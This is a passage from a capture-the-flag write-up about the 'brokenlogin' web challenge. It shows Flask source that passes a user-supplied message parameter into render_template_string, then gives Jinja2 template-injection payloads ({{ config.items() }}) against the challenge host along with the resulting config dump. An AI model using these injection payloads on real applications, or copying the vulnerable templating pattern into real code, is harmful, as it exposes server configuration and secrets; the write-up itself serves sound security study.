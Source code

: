 ```python
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
"""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)

        custom_message = escape(request.args["message"])

    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

For instance `https://brokenlogin.web.actf.co/?message=aa` would display `aa` at the beginning of the
page (in red). This parameter is interpreted as a Jinja2 input and `7*7` would result in `49`. We
could also use `https://brokenlogin.web.actf.co/?message={{%20config.items()%20}}` to retrieve the
configuration.

```text
dict_items([('ENV', 2), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', None), ('JSON_SORT_KEYS', None), ('JSONIFY_PRETTYPRINT_REGULAR', None), ('JSONIFY_MIMETYPE', None), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('g', Undefined), ('a', 2), ('x', 13), ('aa', 1), ('add', 1), ('z', 2), (6, 9), ('q', 2)])
```
